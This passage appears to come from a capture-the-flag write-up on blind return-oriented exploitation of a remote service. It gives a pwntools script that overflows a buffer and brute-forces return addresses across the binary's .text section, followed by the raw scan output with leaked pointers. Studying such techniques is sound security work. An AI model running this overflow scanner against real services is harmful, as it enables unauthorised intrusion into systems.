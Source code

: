 ```py
RIP = 0x40070a
```

## Scan Text section
---
Since we know the start of the `.text` section we can scan the text section for the functions present in it and the output they give. I used the following function - 

```py
def ScanText():
    for i in range(0, 0x1000):
        pwn.log.info("Scanning: " + hex(BINARY_BASE + i))
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET + pwn.p64(BINARY_BASE + i)
        io.send(payload)
        mssg = io.recv(0x1000)
        if mssg != b'Are you blind my friend?\n' and mssg != b'Are you blind my friend?':
            print("Offset", i, "Addr", BINARY_BASE+i, mssg)
        io.close()
```
The output that we get is - 

```bash
Offset 1365 Addr 4195669 b'Are you blind my friend?\n\x9ac&\x06P\x7f\x00\x00AAAAAAAAF\x00\x00\x00\x00\x00\x00\x00 &[\x06P\x7f\x00\x00\xf0W6\xd2\xff\x7f\x00\x000Y6\xd2\xff\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H\xc7%\x06P\x7f\n'
Offset 1367 Addr 4195671 b"Are you blind my friend?\n\x9a\xc3\xc5\xb3\xad\x7f\x00\x00AAAAAAAAF\x00\x00\x00\x00\x00\x00\x00 \x86\xfa\xb3\xad\x7f\x00\x00\xd0\xeb\xac\xbf\xfc\x7f\x00\x00\x10\xed\xac\xbf\xfc\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H'\xc5\xb3\xad\x7f\n"
Offset 1372 Addr 4195676 b'Are you blind my friend?\n\x9asu\x00\xb5\x7f\x00\x00AAAAAAAAC\x00\x00\x00\x00\x00\x00\x00 6\xaa\x00\xb5\x7f\x00\x00P\x9b=i\xfd\x7f\x00\x00\x90\x9c=i\xfd\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H\xd7t\n'
Offset 1374 Addr 4195678 b'Are you blind my friend?\n\n'
Offset 1376 Addr 4195680 b'Are you blind my friend?\n\x9a\xe3\xa1\xac8\x7f\x00\x00AAAAAAAAF\x00\x00\x00\x00\x00\x00\x00 \xa6\xd6\xac8\x7f\x00\x00@\xdd\xc7f\xfe\x7f\x00\x00\x80\xde\xc7f\xfe\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00HG\xa1\xac8\x7f\n'
Offset 1377 Addr 4195681 b'Are you blind my friend?\n\n'
Offset 1382 Addr 4195686 b'Are you blind my friend?\n\n'
Offset 1472 Addr 4195776 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1474 Addr 4195778 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1475 Addr 4195779 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1477 Addr 4195781 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1478 Addr 4195782 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1479 Addr 4195783 b'Are you blind my friend?\nAre you blind my friend?'
Offset 1481 Addr 4195785 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1485 Addr 4195789 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1486 Addr 4195790 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1487 Addr 4195791 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1488 Addr 4195792 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1494 Addr 4195798 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1495 Addr 4195799 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1501 Addr 4195805 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1502 Addr 4195806 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1718 Addr 4196022 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1719 Addr 4196023 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1720 Addr 4196024 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1722 Addr 4196026 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1762 Addr 4196066 b'Are you blind my friend?\nAre you blind my friend?\n'
Offset 1782 Addr 4196086 b'Are you blind my friend?\nAre you blind my friend?'
Offset 1787 Addr 4196091 b'Are you blind my friend?\nAAAAAAAA>\x00\x00\x00\x00\x00\x00\x00 V\xd2xK\x7f\x00\x00 \xa2@&\xfe\x7f\x00\x00`\xa3@&\xfe\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H\xf7\x9cxK\x7f\n'
Offset 1802 Addr 4196106 b'Are you blind my friend?\nNo password for you!\n'
```